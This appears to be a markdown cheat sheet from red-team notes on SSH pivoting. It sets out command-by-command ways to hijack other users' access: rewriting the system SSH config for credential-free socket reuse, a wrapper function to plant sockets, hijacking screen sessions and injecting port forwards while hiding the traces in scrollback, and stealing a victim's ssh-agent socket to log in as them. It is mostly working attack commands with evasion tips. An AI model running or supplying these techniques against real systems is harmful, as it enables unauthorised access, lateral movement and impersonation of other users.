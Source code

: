 # SSH pivoting

Pivoting through SSH

- [ControlMaster via SSH client config](#ctrlm_clientconfig)

- [ControlMaster via shell functions](#ctrlm_shellfunction)

- [Hijacking `screen` sessions](#screen_hijacking)

- [SSH socket hijacking](#socket_hijacking)

## <a name="ctrlm_clientconfig"></a>ControlMaster via SSH client config

Alter the system-wide ssh config:

    Host *
    ControlPath /tmp/%r@%h:%p
    ControlMaster auto
    ControlPersist yes

All new SSH sessions will create persistent brokering maste r sockets. in `/tmp`. These sockets can be used to create further sessions, without credentials, even after the original user exits their session.

    ssh -S /tmp/pwnduser@10.0.1.51:22 %h

This can also be used to create a dynamic tunnel inside an existing master socket.

    ssh -O forward -D 9090 -S /tmp/pwnduser@10.0.1.51:22 %h

The master socket needs to be exited explicitly:

    ssh -O exit -S /tmp/pwnduser@10.0.1.51:22 %h

## <a name="ctrlm_shellfunction"></a>ControlMaster via shell functions

Depending on `$PATH`, you should be able to use this wrapper function to create sockets on behalf of the user.

```bash
ssh () 
{ 
    /usr/bin/ssh -o "ControlMaster=auto" -o "ControlPath=/tmp/%r@%h:%p" -o "ControlPersist=yes" "$@";
}
```

## <a name="screen_hijacking"></a>Hijacking screen sessions

Check `/var/run/screen` or run `screen -r`. You can then `su - pwnduser` but you can't directly connect to the screen (can't open terminal error).

To bypass this, use the `script` binary. Example:

    root@box:~# su - pwnduser
    pwnduser@box:~$ screen -ls
    There is a screen on:
           17228.ssh_session (20/10/2019 16:54:22) (detached)
    1 Socket in /var/run/screen/S-pwnduser
    
    pwnduser@box:~$ script /dev/null
    Script started, file is /dev/null
    pwnduser@box:~$ screen -x 17228.ssh_session

We can then insert a tunnel on the fly by making use of the SSH 'escape subshell'. In an ssh session type `~C`. Then `-D:<port>` to add a dynamic forward on the fly. (You can also type `help` here to see what's possible)

This will not work inside `screen` ssh sessions however, as your own `ssh` session will catch the `~C`. So we will need to use the `-X stuff` from outside of the screen session.

    su - pwnduser
    pwnduser@box:~$ screen -S 17228.ssh_session -p 0 -X stuff $'~C'
    pwnduser@box:~$ screen -S 17228.ssh_session -p 0 -X stuff $'-D:9090\n\n'

Stuff'd text is visible inside a session's scrollback. Prevent this by changing scrollback to 0 lines, clearing the screen then setting it back.

    screen -S 18323.my_ssh_session -X scrollback 0
    screen -S 18323.my_ssh_session -p 0 -X stuff $'~C'
    screen -S 18323.my_ssh_session -p 0 -X stuff $'-D:9090\nclear\n'
    screen -S 18323.my_ssh_session -X scrollback 15000

Then, the last piece of the puzzle is to create a local port on the intermediary machine we used so we can connect to it externally.

    root@box:~# (insert ~C)
    ssh> -L7070:localhost:9090
    Forwarding port.
    
    root@box:~# ~#
    The following connections are open:
    (...etc, this should have your forward in it)

## <a name="socket_hijacking"></a>Socket hijacking

When Forward-Agent is used

Find the SSHd process of the victim

    ps aux | grep sshd

Looks for the SSH_AUTH_SOCK on victim's environment variables

    grep SSH_AUTH_SOCK /proc/<pid>/environ

Hijack's victim's ssh-agent socket

    SSH_AUTH_SOCK=/tmp/ssh-XXXXXXXXX/agent.XXXX ssh-add -l

Login to remote systems as the victim

    ssh remote_system -l victim



Sources:

- [0xthem](http://0xthem.blogspot.com/2015/03/hijacking-ssh-to-inject-port-forwards.html)
- [xorl](https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/)
